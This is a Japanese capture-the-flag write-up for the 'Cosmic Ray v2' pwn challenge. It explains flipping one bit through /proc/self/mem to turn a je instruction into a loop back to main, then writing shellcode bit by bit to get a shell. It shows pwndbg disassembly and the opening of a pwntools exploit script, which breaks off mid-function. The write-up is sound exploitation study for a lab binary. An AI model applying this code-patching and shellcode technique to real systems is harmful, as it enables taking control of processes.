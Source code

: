 # Cosmic Ray v2

PIE 以外のセキュリティ機能がついたバイナリが与えられる。

アドレスを入力すると、`"/proc/self/mem"` を開いてその場所にある 1byte を教えてくれる。
次に、その 1 バイトのうち好きなビットを 1 つ反転させて `"/proc/self/mem"` に書き戻す。

これらの操作が 1 回だけ可能で、問題名通り中性子線っぽいことができる。

一回では流石に何もできないので、どうにかして何度も書き換えられるようにしたい。
`"/proc/self/mem"`はメモリの権限などは関係なく書き込みが可能なので、text 領域の書き換えて実現できそう。

ジャンプ命令のオフセットを書き換えてこれを行う。以下の部分に注目した。

```plaintext
pwndbg> x/10i &cosmic_ray+490
   0x4015d8 <cosmic_ray+490>:   sub    rax,QWORD PTR fs:0x28
   0x4015e1 <cosmic_ray+499>:   je     0x4015e8 <cosmic_ray+506>
   0x4015e3 <cosmic_ray+501>:   call   0x401120 <__stack_chk_fail>
   0x4015e8 <cosmic_ray+506>:   leave
   0x4015e9 <cosmic_ray+507>:   ret
   0x4015ea <main>:     endbr64
   0x4015ee <main+4>:   push   rbp
   0x4015ef <main+5>:   mov    rbp,rsp
   0x4015f2 <main+8>:   mov    rax,QWORD PTR [rip+0x2a27]        # 0x404020 <stdout@GLIBC_2.2.5>
   0x4015f9 <main+15>:  mov    esi,0x0
```

```plaintext
pwndbg> x/10x 0x4015e1
0x4015e1 <cosmic_ray+499>:      0x38e80574      0xc9fffffb      0x1e0ff3c3      0x894855fa
0x4015f1 <main+7>:      0x058b48e5      0x00002a27      0x000000be      0xc7894800
0x401601 <main+23>:     0xfffb2ae8      0x058b48ff
```

`cosmic_ray+499`にある`je 7`という命令は、`rip`から+7 した先に移動する命令である。エンディアンに注意してこの機械語を確認すると `0574` という部分が該当する。

Intel Software Developer's Manual の 3-548 Vol. 2A にその説明がある。オフセットの`5`というのは、自身の命令(長さ`2`)が終わってからのオフセットだからと考えれば良い。

この`5`という値の`2`bit 目を書き換えればちょうどぴったり`je main`という命令に変化する。が、これは`rsp`のアラインメントの関係でうまく行かなかったので 4 ビット目を書き換え、`je main+6`とした。

ちなみに、実際に exploit を書く時は下位ビットが 7 で上位ビットが 0 なので注意。

さて、これで何度も書き換えられるようになったので、`main`内の`call cosmic_ray`のあとの命令をシェルコードに置き換えていく。最後にさっき書き換えた`je`命令の 4 ビット目を反転させれば`main`に戻ってきたときに発火する。

1 ビットずつなのでリモートに適用する時は実行に 2 分ほどかかるが、これでシェルが取れる。

exploit.py

```python
binary = ELF("./cosmicrayv2", checksec=True)

context.arch = "amd64"
context.os = "linux"
context.bits = 64

def send_address(io: tube, address: int):
    io.sendlineafter(b"ray through:", hex(address).encode())


def flip(io: tube, val: int):
    assert 0 <= val < 8
    io.sendlineafter(b"flip:", str(val).encode())


def write_byte(io: tube, address: int, val: int):
    assert 0 <= val < 256
```